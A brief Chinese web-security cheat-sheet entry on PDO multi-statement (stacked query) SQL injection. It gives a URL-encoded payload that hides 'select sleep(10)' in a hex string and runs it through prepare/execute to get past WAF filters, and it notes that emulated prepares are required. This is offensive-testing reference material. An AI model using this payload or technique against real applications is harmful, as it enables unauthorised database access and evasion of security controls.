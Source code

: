 ## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

